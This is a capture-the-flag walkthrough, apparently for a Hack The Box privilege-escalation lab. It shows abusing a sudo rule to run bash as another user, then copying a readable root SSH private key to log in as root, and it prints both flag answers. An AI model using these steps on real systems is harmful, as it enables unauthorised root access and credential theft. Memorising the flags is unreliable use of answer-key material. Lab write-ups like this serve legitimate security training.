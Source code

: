 
## **Overview**

- **Difficulty:** Easy
- **Operating System:** Linux
- **Objective:** Escalate privileges and capture the flag
- **Tools Used:** `nmap`, `metasploit`, `openvpn`, `searchsploit`

---
## **SSH'ing into the shell**

The very first thing is to obviously get into the system using ssh:
```
$ ssh user1@94.237.62.184 -p 39570
```
 
 Once in, let's first see what sudo permissions do I have using the `sudo -l` command:
 ```
 user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -l
Matching Defaults entries for user1 on ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:
    (user2 : user2) NOPASSWD: /bin/bash

```

This clearly shows that `user2` can execute commands for `/bin/bash` using sudo.
Our immediate next step should be to know what all can be done so, I come to https://gtfobins.github.io/gtfobins/bash/ and upon scrolling:
![[Pasted image 20250104122647.png]]

There's a clear trend that we can execute commands in the manner:
```
$ sudo -u user2 bash -c '<whatever>'
```

Let's go check it out.
```
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'whoami'
user2
```

Yup, its working!
Let's start with exploring what all is visible upon first `ls`:
```
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'ls /home'
user1  user2
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'ls /home/user2'
flag.txt
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'cat /home/user2/flag.txt'
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```

There's flag number 1:
A1: `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`

Now, moving on I go through all directories similary and no exciting find.
Now, its time to get root privs, so I go to `/root/user/.ssh` to try and find a `id_rsa`, but first a little bs:
```
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'ls -lash /root'
total 32K
4.0K drwxr-x--- 1 root user2 4.0K Feb 12  2021 .
4.0K drwxr-xr-x 1 root root  4.0K Jan  4 06:01 ..
4.0K -rwxr-x--- 1 root user2    5 Aug 19  2020 .bash_history
4.0K -rwxr-x--- 1 root user2 3.1K Dec  5  2019 .bashrc
4.0K -rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
4.0K drwxr-x--- 1 root user2 4.0K Feb 12  2021 .ssh
4.0K -rwxr-x--- 1 root user2 1.3K Aug 19  2020 .viminfo
4.0K -rw------- 1 root root    33 Feb 12  2021 flag.txt
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'cat /root/flag.txt'
cat: /root/flag.txt: Permission denied
```

Obviously, what was I expecting!
Moving over the bs, there's a `.ssh`, lets check it out:
```
user1@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~$ sudo -u user2 bash -c 'ls -lash /root/.ssh'
total 20K
4.0K drwxr-x--- 1 root user2 4.0K Feb 12  2021 .
4.0K drwxr-x--- 1 root user2 4.0K Feb 12  2021 ..
4.0K -rw------- 1 root root   571 Feb 12  2021 authorized_keys
4.0K -rw-r--r-- 1 root root  2.6K Feb 12  2021 id_rsa
4.0K -rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
```

And, voila! We've located the `id_rsa`, let's quickly copy it.
Quick side note is, I copied and got it locally but it was not working at all! The most common issue with copying into your system is that if you use `vim` ofc and not `nano` to check it out, you see an extra spaces line at the bottom. Remove that.

Now, you're ready!
First, update permissions to only read write:
```
$ chmod 600 temp-rsa
```

Finally, moment of truth:
```
$ ssh root@94.237.62.184 -p 39570 -i temp-rsa 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~#
```

And, voila! You've successfully escalated privs and are now `root`.
Upon searching within, I found the flag which is what we needed:
```
root@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~# ls
flag.txt
root@ng-1634363-gettingstartedprivesc-mug0k-7db76f5c46-5n4mr:~# cat flag.txt 
HTB{pr1v1l363_35c4l4710n_2_r007}
```

A2: `HTB{pr1v1l363_35c4l4710n_2_r007}`

---

**Prepared by Araiz Naqvi**